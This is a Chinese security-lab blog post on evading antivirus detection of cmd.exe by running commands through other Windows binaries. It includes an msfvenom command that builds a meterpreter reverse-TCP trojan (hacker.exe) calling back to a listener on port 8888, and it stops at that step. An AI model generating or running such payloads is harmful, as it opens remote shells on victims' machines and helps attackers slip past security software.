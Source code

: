 ##  免杀技巧-执行系统命令方式总结

原创 0xAXSDD [ Gamma实验室 ](javascript:void\(0\);)

**Gamma实验室** ![]()

微信号 HackerLearning

功能介绍
Gamma实验室是专注于网络安全攻防研究的实验室，不定时向外输出技术文章以及自主研发安全工具，技术输出不限于：渗透，内网，红队，免杀，病毒分析，逆向，ctfwp等,实验室只用于技术研究，一切违法犯罪与实验室无关！

____

__

收录于话题

“在渗透测试中，常常会遇到这种情况，上传一个shell上去，连上，却发现无法调用cmd.exe无法执行系统命令，这时候你往往想着，上传一个自己的cmd.exe上去，这是一套行云流水的操作，但把环境条件在变得苛刻一点，杀毒软件将监视二进制文件，例如cmd.exe,那么你会怎么做才能逃避检测？那么接下来就会介绍一些免杀思路。”

  

01

 背景

  

Windows系统提供了多个二进制文件，可以使用它们执行任意命令。

在这，你是不是想到了什么？既然可以执行命令，那么它将帮助hacker们逃过检测，尤其是对cmd.exe监视的环境下。

当然这需要一些前提条件：未正确配置白名单规则（这里涵盖了文件名和路径），使得一些系统可执行文件能够执行。

  

 **接下来**

 **让我们看看这些项免杀技术的闪光点！**

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210818090720.png)

  

02

正文

  

我们先用msfvenom生成一个木马程序：

  * 

    
    
    msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.73.136 lport=8888 -f exe -o hacker.exe

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210818090721.png)

Msf监听端口8888
